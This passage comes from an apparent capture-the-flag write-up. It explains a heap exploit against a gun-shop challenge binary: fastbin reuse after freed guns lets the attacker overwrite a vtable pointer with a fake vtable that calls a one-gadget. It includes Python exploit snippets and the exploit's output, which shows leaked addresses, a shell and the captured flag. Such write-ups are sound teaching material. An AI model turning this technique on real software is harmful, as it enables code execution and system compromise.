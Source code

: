 ```
	payload = "AAAA"
	payload += p32(ONE)			# VTable Shoot
	payload += "CCCC"			# VTable Reload
	payload += "DDDD"			# VTable ShowInfo
	payload += "EEEE"

	buy(1, 32, payload)			# 0
	buy(1, 32, "XXXXYYYY")			# 2
	buy(1, 32, "EEEEFFFF")			# 3	
	
	selectgun(2)
	
	dropgun(0)		
	dropgun(2)
	dropgun(3)
```

```c
fastbinsY[1] : Gun 3  --> Gun 2  --> Gun 1
fastbinsY[3] : Name 3 --> Name 2 --> Name 0
```

Now allocating a gun with a name only 16 bytes long, will result in malloc using the chunk *Gun3* to allocate the memory for the new gun, and chunk *Gun2* for the name of our new gun, since its size also matches that of fastbinsY[1].

Thus creating this new gun will result in overwriting the class information of gun 2 with the name of our new gun and with it, its precious vtable ptr. 

With this we can overwrite it with the address of our previously created fake vtable, which contains the address of our magic gadget.

```python
	payload = p32(HEAPDEST)		# new vtable ptr
	payload +=  p32(HEAPDEST)
	
	buy(1, 16, payload)	
	
	usegun(1, False)
```

Sine gun 2 is still selected, all that's left is to *shoot* with it, which will then use our fake vtable to calculate the function address to call, which happens to be our magic gadget.

```
$ python xpl.py 1
[+] Opening connection to 202.112.51.247 on port 3456: Done
[*] Heap leak        : 0x567c9a20
[*] LIBC leak        : 0xf75d07b0
[*] LIBC base        : 0xf741e000
[*] One gadget       : 0xf7458c69
[*] HEAP destination : 0x567c9a4c
[*] Switching to interactive mode
$ cat flag
bctf{ec1c977319050b85e3a9b50d177a7746}
```
